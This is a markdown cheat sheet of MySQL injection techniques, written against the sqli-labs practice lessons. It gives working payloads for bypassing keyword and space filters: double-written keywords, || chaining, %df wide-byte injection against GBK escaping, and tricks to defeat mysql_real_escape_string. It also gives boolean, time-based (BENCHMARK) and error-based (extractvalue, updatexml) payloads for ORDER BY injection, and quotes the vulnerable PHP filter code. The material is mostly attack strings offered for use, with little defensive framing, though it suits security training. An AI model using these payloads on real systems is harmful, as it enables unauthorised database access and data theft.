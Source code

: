 # Mysql Injection Tips

Write by manesec.

## 0x0 Some by pass word

+ Space = `%0a`, `+`

+ and = `&&`

+ or = `||`

## 0x1 Bypass `only filtered at once`

Sometimes some phrases are only filtered at one time, It just turns some simple words into blanks and passes them to Mysql.

Example code like :

``` php
function blacklist($id){
    $id= preg_replace('/or/i',"", $id);
    $id= preg_replace('/AND/i',"", $id);
    return $id;
}
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-25/index.php#LL61C27-L61C27

Filtered:  `or`, `and`

1. Input: `id = 1' and 1=1 -- -`
2. Filtered will be: `id = 1' 1=1 -- -`
3. Pass to mysql to exec.

Now you can do :

1. Input: `id = 1' aandnd 1=1 -- -`
2. Filtered will be: `id = 1' and 1=1 -- -`
3. Pass to mysql to exec the injection command.

The reason it worked was because he only filtered it once.

## 0x2 Bypass `space` and `command out`

Example code like :

```php
function blacklist($id) {
    $id= preg_replace('/or/i',"", $id);            //strip out OR (non case sensitive)
    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)
    $id= preg_replace('/[\/\*]/',"", $id);        //strip out /*
    $id= preg_replace('/[--]/',"", $id);        //Strip out --
    $id= preg_replace('/[#]/',"", $id);            //Strip out #
    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces
    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
    return $id;
}
$id= blacklist($id);
$hint=$id;
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-26/index.php#L59


Filtered:  `or`, `and`,  `/*` , `–` ,`#` , `SPACE` , `/`

Using `||` to by pass it, like: 

`index.php?id=1'||extractvalue(1,concat(0x7e,user(),0x7e))||'`

## 0x3 Wide byte injection: `%df`

```php

    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-32/index.php#L19

Filtered: `/`, `'`, `"`

Add `%df` like `?id=%df' and 1=1 -- -`

MySQL uses GBK encoding by default. When MySQL uses GBK encoding, it considers two characters as one Chinese character if the ASCII code of the first character is greater than 128 (which falls within the range of Chinese characters). 

This is a feature of MySQL because GBK is a multi-byte encoding that considers two bytes as one Chinese character. When we pass parameters, we use the URL encoding for the single quote, represented as `%27`, and we can pass it as `%df%27`.

**Note** : `%23` = `#`

When we pass in `%df` as a parameter, it becomes `?id=1%DF and 1=1%23` in the database. 

At this point, the escape function will also escape the single quote we entered and convert it to `\'`, (where the URL encoding of "\" is `%5C`). 

In the URL, it becomes `%DF%5c%27`. When encoded in GBK, `%5c` will be combined with the previous `%df` to form a Chinese character (運), which closes the single quote and successfully executes the query. 

The final SQL statement is: `select * from user where id='1運' and 1=1#'`

See: https://www.freebuf.com/articles/web/337784.html

## 0x4 Bypass `mysql_real_escape_string()` when Mysql is not GBK encoding.

In the php code using the `mysql_real_escape_string()` to filtered some work, but mysql not using GBK encoding.

`\x00`, `\n`, `\r`, `\`, `'`, `"` and `\x1a` will not work.

But it have a two way to bypass it, using `%df'` or `%EF%BF%BD` (Like `%df`).

## 0x5 `order by` after injection.

```php
$sql = "SELECT * FROM users ORDER BY $id";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-46/index.php#LL22C2-L22C44

`index.php?sort=1`


**boolean injection** : It can use some function like

+ `?sort=rand(false)`

**Time based**: 

+ `?sort=(SELECT IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)`

**Error based**:

Note: `PROCEDURE ANALYSE()` is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0.

+ `?sort=updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=extractvalue(rand(),concat(0x3a,version()))`
+ `?sort=1 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)`

